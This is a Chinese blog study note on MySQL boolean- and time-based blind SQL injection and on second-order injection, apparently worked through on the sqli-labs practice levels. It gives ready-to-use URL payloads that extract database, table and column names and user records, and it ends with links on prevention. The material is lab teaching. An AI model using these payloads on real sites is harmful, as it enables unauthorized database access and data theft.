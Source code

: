 # 07-mysql盲注




# SQL测试-基于 布尔,延时 盲注

>场景：无回显，并且没有报错和其他显示
>能用布尔就不用延迟

**几个相关函数：**
`regexp`       regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
`if`       if(条件,5,0) 条件成立 返回5 反之 返回0
`sleep`    sleep(5) SQL语句延时执行5秒
`mid`    mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
`substr`   substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
`left`    left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
`length`    length(database())=8，判断数据库database()名的长度
`ord`=`ascii`     ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
`IFNULL()`  函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
`CAST()`和`CONVERT()`函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：`CAST(value as type);`        `CONVERT(value, type);`

#### 基于布尔(逻辑)盲注

Less-5
用burp批量跑
**0x01 获取`数据库`名操作Payload：**     left()
获取数据库名长度值
`?id=1' and length(database())=8 %23`

获取数据库名第一位值
`?id=1' and left(database(),1)='s' %23`     等于
`?id=1' and left(database(),1)>'a' %23`     大于

获取数据库名第二位值
`?id=1' and left(database(),2) > 'sa' %23`
`?id=1' and left(database(),2) = 'se' %23`



**0x02 获取`表名`操作Payload：**     ascii(substr())
获取表名第一个第一位的值（下面这个是获取表名中第一个表，的第二位的值）
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23`
获取表名第一个第二位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=101 %23`
获取表名第二个第一位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101 %23`

用burp批量跑(最后一种模式，设置两个变量  limit $0, 1), $1,1))=115)   



**0x03 获取`列名`操作Payload：**    regxp
获取列名regexp 查询users表第一个列名是否有us...列名
`?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp '^us[a-z]' limit 0,1)--+`



**0x04 获取`数据`操作Payload：**    ord(mid())
获取数据 security.users表中username列名的第一个第一位
`?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+`
(获取username中的第一行的第一个字符的ascii，与68进行比较)




#### 基于延时盲注

**0x01 获取数据库名操作Payload：**     if(条件，成立返回值，不成立的返回值)
获取数据库名第一个第一位
`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+`
可以把sleep放外面：and sleep(if 'x'='yx, 5, 0)

**0x02 获取表名操作Payload：**
获取列名第一个第一位
`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),1)--+`

>后续参考：https://www.cnblogs.com/xishaonian/p/6113965.html

-----



## SQL二次注入测试

**案例测试**：
less-24 及实际举例
25-30关卡好多是二次注入

> 自己练习

**应用范围：**
我们注册一个用户后，然后进入用户中心，对应的url地址： xxx.php?user=xiaodi
如果把注册的用户名改为: `xx' union select 1,2,3 -- `  
总之: 将注入语句让web写入到数据库中，web在调用数据库中数据查询时，就触发了...



###### 原理

<img src="http://image.xpshuai.cn/%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5.png"></img>



#### mybatis以及预编译如何防止SQL注入


>参考：https://www.cnblogs.com/haojun/p/10682407.html https://www.cnblogs.com/yangzailu/p/11381765.html

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/07-mysql%E7%9B%B2%E6%B3%A8/  

